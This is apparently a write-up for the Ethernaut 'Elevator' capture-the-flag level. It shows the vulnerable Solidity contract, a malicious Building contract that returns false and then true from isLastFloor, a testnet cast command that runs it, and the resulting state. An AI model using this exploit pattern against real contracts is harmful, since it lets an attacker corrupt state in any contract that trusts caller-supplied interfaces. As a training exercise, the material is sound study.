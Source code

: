 ```yaml
---
title: "Elevator"
tags: ["Stateful function"]
reference: https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6
---
```


# Description

This elevator won't let you reach the top of your building. Right?

Things that might help:

- Sometimes solidity is not good at keeping promises.
- This Elevator expects to be used from a Building.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

# Solution

1. the `Elevator`'s `goTo` function will use the `Building` contract from message sender. So the message sender can write its own `isLastFloor` function logic.

2. Deploy Building contract

```sol
interface IElevator {
    function goTo(uint256 _floor) external;
}

contract Building {
    mapping(uint256 => uint256) floorCount;

    function isLastFloor(uint256 _floor) public returns (bool) {
        floorCount[_floor] += 1;
        return floorCount[_floor] % 2 == 0;
    }

    function goTo(address victim, uint256 _floor) public {
        IElevator(victim).goTo(_floor);
    }
}
```

This `isLastFloor` function can make the return of first call to be `false`. So we can enter into the if statement. Also, the the return of second call to be `true`. So the `top = true`.

```sol
if (!building.isLastFloor(_floor)) { // first call
    floor = _floor;
    top = building.isLastFloor(floor); // second call
}
```

3. call `Building` contract's `goTo` function

```
cast send 0x68FC859Eaed8AC890fe3cD8A941b30B9b00AcFbF "goTo(address, uint256)" 0x09eD9E43AeeACF4533B8BF04906A4C50230726A2 100 --rpc-url $BASE_SEPOLIA_RPC
```

4. check the Elevator's state variables

```
await contract.floor()
i {negative: 0, words: Array(2), length: 1, red: null}length: 1negative: 0red: nullwords: (2) [100, empty][[Prototype]]: Object
await contract.top()
true
```
